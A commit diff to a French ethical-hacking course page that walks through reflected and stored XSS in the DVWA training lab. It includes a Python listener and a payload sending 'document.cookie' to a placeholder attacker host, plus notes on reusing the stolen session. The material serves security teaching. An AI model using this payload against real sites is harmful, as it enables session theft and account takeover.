

Before and after one commit to yugmerabtene/techniques-de-hacking-niveau-1, a Markdown page: JOUR-01-introduction-hacking-ethique-vulnerabilites.md, the part around the change. Shown at 97% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Clarify cookie theft (2 terminals, step flow) + Stored XSS explanation

````diff
--- a/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
+++ b/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
@@ -558,37 +558,68 @@ L'attaquant n'a pas besoin d'attaquer le serveur — il piège un lien envoyé
 
 ### Étape 2 — Vol de cookie
 
-**Terminal 1** — écouteur HTTP :
+Le but : injecter un payload XSS qui envoie le cookie de session au serveur de l'attaquant. L'attaquant n'est pas la victime — il doit donc **recevoir** le cookie sur sa machine. Pour ça, on utilise **deux terminaux** :
 
-**Contexte :** Pour capturer le cookie volé, on met en place un serveur HTTP qui écoute les requêtes entrantes. Quand la victime exécute le payload XSS, son navigateur envoie une requête à ce serveur avec le cookie dans l'URL. On utilise le module `http.server` intégré à Python — aucun outil supplémentaire n'est nécessaire.
+1. **Terminal 1 (écouteur)** : votre machine Kali attend la requête HTTP contenant le cookie
+2. **Terminal 2 (injection)** : vous soumettez le payload XSS dans DVWA
 
-**Flags :**
-- `-m http.server` (module) : exécute le serveur HTTP intégré de Python
-- `8000` : port d'écoute arbitraire (doit correspondre à celui utilisé dans le payload XSS)
-- Le serveur affiche chaque requête entrante : URL, IP source, User-Agent
+---
+
+**Terminal 1 — Lancer l'écouteur HTTP**
+
+**Contexte :** On démarre un mini-serveur HTTP sur Kali qui affiche chaque requête reçue. Quand la victime (nous-mêmes, dans le navigateur) exécute le payload XSS, son navigateur appelle ce serveur avec le cookie dans l'URL. Python sert ce serveur sans rien installer.
 
 ```bash
 cd rendu_labs/jour-01
 python3 -m http.server 8000
 ```
 
-**Terminal 2** — payload dans DVWA (remplacer l'IP par `hostname -I`) :
+**Ce que vous voyez :**
+```
+Serving HTTP on 0.0.0.0 port 8000 ...
+```
+Le terminal reste bloqué en attente. Chaque nouvelle requête s'affichera ici automatiquement.
+
+---
+
+**Terminal 2 — Injecter le payload XSS**
+
+**Contexte :** `<script>new Image().src='http://...'</script>` crée une requête vers notre serveur sans que l'utilisateur s'en aperçoive. Le navigateur demande une image introuvable, mais envoie le cookie dans l'URL au passage.
+
+Dans DVWA → **XSS (Reflected)** → champ "What's your name?", entrez (remplacez `<KALI_IP>` par votre IP Kali avec `hostname -I`) :
+
 ```html
 <script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
 ```
 
-L'écouteur reçoit : `GET /?cookie=PHPSESSID=abc123...` → cookie volé.
+**Ce qui se passe :**
+1. Le navigateur interprète la page de résultat (vulnérable)
+2. La balise `<script>` s'exécute
+3. `new Image().src = ...` demande une image à `http://<KALI_IP>:8000/`
+4. Le cookie de session (`document.cookie`) est collé dans l'URL : `?cookie=PHPSESSID=valeur`
 
-Retournez dans le **Terminal 1** (écouteur HTTP) pour confirmer.
+**Retournez dans le Terminal 1** — vous devez voir apparaître :
+
+```
+GET /?cookie=PHPSESSID=abc123def456 HTTP/1.1
+```
+
+Le cookie est volé. En conditions réelles, l'attaquant copie ce `PHPSESSID` dans son propre navigateur → session usurpée sans mot de passe.
+
+---
 
 ### Étape 3 — Stored XSS
 
-DVWA → **XSS (Stored)** :
+**Où ?** DVWA → onglet **XSS (Stored)** → formulaire **"Name"** + **"Message"**.
+
+**Pourquoi ça marche ?** Contrairement au Reflected XSS qui se déclenche sur un lien piégé, le Stored XSS enregistre le script **dans la base de données** de l'application. Chaque visiteur de la page Guestbook exécute automatiquement le script — pas besoin de piéger un lien.
+
 ```html
 Name: Attaquant
 Message: <script>alert('Stored XSS')</script>
 ```
-→ Popup à chaque rafraîchissement. Stocké en base.
+
+**Résultat :** Une popup JS s'affiche **à chaque chargement** de la page Guestbook. Le script est persistant (stocké en base). Impact plus large qu'un Reflected XSS car tous les visiteurs sont touchés.
 
 ### 🔒 Contre-mesure (M1013 Application Hardening + M1054 Secure Coding)
 
````
